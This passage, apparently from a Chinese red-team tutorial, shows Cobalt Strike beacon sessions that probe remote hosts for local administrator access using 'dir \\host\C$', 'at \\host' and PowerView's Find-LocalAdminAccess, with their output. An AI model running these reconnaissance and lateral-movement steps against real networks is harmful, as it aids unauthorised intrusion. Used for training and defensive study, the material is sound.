 ```powershell
#一般账号运行结果
beacon> shell dir \\WIN-72A8ERDSF2P\C$
[*] Tasked beacon to run: dir \\WIN-72A8ERDSF2P\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
```

也可以运行其他命令，比如运行下面的 `at` 命令来查看系统上的计划任务列表，如果显示出了任务列表信息，那么可能是本地管理员。（当任务列表没有信息时会返回 “列表是空的” 提示）

```powershell
shell at \\host
```

```powershell
#管理员账号运行结果
beacon> shell at \\WIN-P2AASSD1AF1
[*] Tasked beacon to run: at \\WIN-P2AASSD1AF1
[+] host called home, sent: 51 bytes
[+] received output:
状态 ID     日期                    时间          命令行
-------------------------------------------------------------------------------
        1   今天                    22:30         E:\Install\Thunder\Thunder.exe
```

```powershell
#一般账号运行结果
beacon> shell at \\WIN-72A8ERDSF2P
[*] Tasked beacon to run: at \\WIN-72A8ERDSF2P
[+] host called home, sent: 51 bytes
[+] received output:
拒绝访问。
```

在上一节讲述的 `PowerView` 有很多很好的自动操作来帮助解决这些问题。可以在加载 `PowerView` 后，运行下面的命令，通过 `PowerView` 可以快速找到管理员账号。

```powershell
powershell Find-LocalAdminAccess
```

```powershell
beacon> powershell-import powerview.ps1
[*] Tasked beacon to import: powerview.ps1
[+] host called home, sent: 101224 bytes

beacon> powershell Find-LocalAdminAccess
[*] Tasked beacon to run: Find-LocalAdminAccess
[+] host called home, sent: 329 bytes
[+] received output:
WIN-P26AK33U871.teamssix.com
```

# 0x02 域管理员账号

第二个关键步骤，发现域管理员账号。
